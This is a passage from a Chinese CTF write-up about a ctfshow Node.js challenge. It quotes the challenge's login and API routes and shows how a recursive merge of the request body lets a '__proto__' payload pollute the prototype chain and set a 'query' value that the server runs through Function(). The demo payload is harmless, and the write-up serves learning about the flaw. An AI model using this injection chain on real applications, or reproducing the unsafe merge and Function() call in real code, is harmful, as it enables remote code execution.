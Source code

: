 > routes/login.js
>
> ```js
> var flag='flag_here';
> var secert = {};
> var sess = req.session;
> let user = {};
> utils.copy(user,req.body);
> if(secert.ctfshow===flag){
>  res.end(flag);
> }
> ```
>
> 因为不知道flag，因此secert.ctfshow===flag就难以实现了
>
> 可以看到多了一个api.js
>
> ```js
> router.post('/', require('body-parser').json(),function(req, res, next) {
> res.type('html');
> res.render('api', { query: Function(query)(query)});
> 
> });
> ```
>
> 可以通过参数污染控制query

预期解：

```js
function copy(object1, object2){
   for (let key in object2) {
       if (key in object2 && key in object1) {
           copy(object1[key], object2[key])
       } else {
           object1[key] = object2[key]
       }
   }
 }
var user ={}
body=JSON.parse('{"__proto__":{"query":"return 111"}}');
copy(user,body)
console.log(query)
```

运行如上代码可以看到，query的值从"return 111"变为111

![](https://i.loli.net/2021/09/06/sNXoPb8n6SuTJVG.png)

query之所以会改变，是由于原型链污染，js中所有对象的原型都可以被继承到object，而其继承的终点是null对象

![](https://i.loli.net/2021/09/06/aPolLx9OJricbGH.png)
